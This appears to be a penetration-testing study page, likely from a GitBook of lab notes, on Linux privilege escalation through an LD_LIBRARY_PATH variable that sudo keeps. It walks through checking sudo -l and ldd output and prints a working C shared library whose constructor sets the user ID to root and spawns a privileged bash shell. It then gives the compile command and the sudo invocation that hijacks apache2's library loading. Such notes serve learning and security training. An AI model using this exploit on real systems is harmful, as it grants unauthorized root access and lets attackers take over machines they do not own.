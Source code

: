 # LD\_LIBRARY\_PATH

Programs running via sudo can inherit variables from the environment of the user. If the **env\_reset** option is set in the **/etc/sudoers** config file, sudo will run the programs in a new, minimal _environment_. The **env\_keep** option can be used to keep certain environment variables from the user’s environment. The configured options are displayed when running **sudo -l**.

The **LD\_LIBRARY\_PATH** is inherited from the user's environment. The **LD\_LIBRARY\_PATH** contains a list of directories which search for shared libraries first.&#x20;

### Steps

#### Investigate the sudo-able programs and the libraries used.&#x20;

{% code overflow="wrap" %}
```bash
# Check if you see any sudo configuration for your usrname
sudo -l
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

```bash
# Check if you have libray for the programs. In this case, apache2
ldd /usr/sbin/iftop
... 
ldd /usr/sbin/apache2
```

<figure><img src="../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

#### Compile the following code and make it so library.

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

#### Execute to escalate the privilege

<figure><img src="../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

```bash
sudo LD_LIBRARY_PATH=/tmp apache2
```
